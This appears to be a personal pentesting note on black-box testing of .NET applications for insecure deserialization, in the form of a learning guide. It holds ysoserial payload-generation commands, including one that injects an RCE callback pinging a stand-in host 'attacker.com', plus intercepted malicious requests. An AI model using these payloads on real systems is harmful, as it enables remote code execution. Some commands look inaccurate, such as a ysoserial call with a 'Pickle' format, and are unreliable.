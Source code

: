 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/deserialization-net/black-box-appraoch/","noteIcon":"","created":"2025-04-15T14:11:19.601-04:00"}
---
```




















### Black Box Testing Examples:

1. **Identifying Input Points:**
   - **Example:** During your assessment, you identify that the application uses a cookie called `userData` which appears to contain serialized data.
     **Action:** Capture and inspect the cookie value. Prepare to test it with modified or malicious serialized data.

2. **Sending Malformed Data:**
   - **Example:** Using Burp Suite, intercept a request containing the `userData` cookie:
     ```
     Cookie: userData=<base64 encoded serialized object>
     ```
     **Action:** Modify the `userData` value to include malformed serialized data and observe the response for errors or crashes.

3. **Using Exploitation Tools:**
   - **Example:** Generate a payload using `ysoserial.net` for a .NET application:
     ```bash
     ysoserial.net -g TypeConfuseDelegate -f Json.Net
     ```
     **Action:** Inject this payload into the `userData` cookie and send the request. Monitor for successful execution or error messages indicating deserialization.

4. **Monitoring Responses:**
   - **Example:** You receive a response with an error stack trace indicating a deserialization error:
     ```
     System.InvalidOperationException: There is an error in XML document
     ```
     **Action:** Use this information to refine your payloads and pinpoint the exact deserialization vulnerability.

5. **Proxy and Intercept:**
   - **Example:** Intercept and modify traffic using Burp Suite to insert malicious serialized data:
     ```http
     POST /someEndpoint HTTP/1.1
     Host: vulnerableApp.com
     Content-Type: application/xml
     
     <userData>
         <ObjectType>ExploitType</ObjectType>
         <Data>malicious_payload</Data>
     </userData>
     ```
     **Action:** Send the modified request and observe the application's behavior.

### Practical Steps with Examples:

1. **Set Up Monitoring:**
   - **White Box:** Add logging to the deserialization function:
     ```csharp
     public T Deserialize<T>(string xml)
     {
         try
         {
             XmlSerializer serializer = new XmlSerializer(typeof(T));
             using (StringReader reader = new StringReader(xml))
             {
                 return (T)serializer.Deserialize(reader);
             }
         }
         catch (Exception ex)
         {
             Logger.Log("Deserialization error: " + ex.Message);
             throw;
         }
     }
     ```
   - **Black Box:** Use Burp Suite to capture and analyze HTTP traffic:
     ```
     GET /someEndpoint HTTP/1.1
     Host: vulnerableApp.com
     Cookie: userData=<captured_base64_encoded_data>
     ```

2. **Generate and Test Payloads:**
   - **White Box:** Modify code to test deserialization with different payloads:
     ```csharp
     string testXml = "<MyObject><Property>test</Property></MyObject>";
     MyObject obj = Deserialize<MyObject>(testXml);
     ```
   - **Black Box:** Use `ysoserial` to generate payloads:
     ```bash
     ysoserial -o Pickle -p RCE "ping -c 1 attacker.com"
     ```

3. **Analyze Error Responses:**
   - **White Box:** Review log files for deserialization errors:
     ```
     Deserialization error: InvalidOperationException: There is an error in XML document
     ```
   - **Black Box:** Inspect HTTP response for stack traces or error messages:
     ```
     HTTP/1.1 500 Internal Server Error
     Content-Type: text/html
     
     <html>
         <body>
             <h1>Server Error</h1>
             <p>System.InvalidOperationException: There is an error in XML document</p>
         </body>
     </html>
     ```
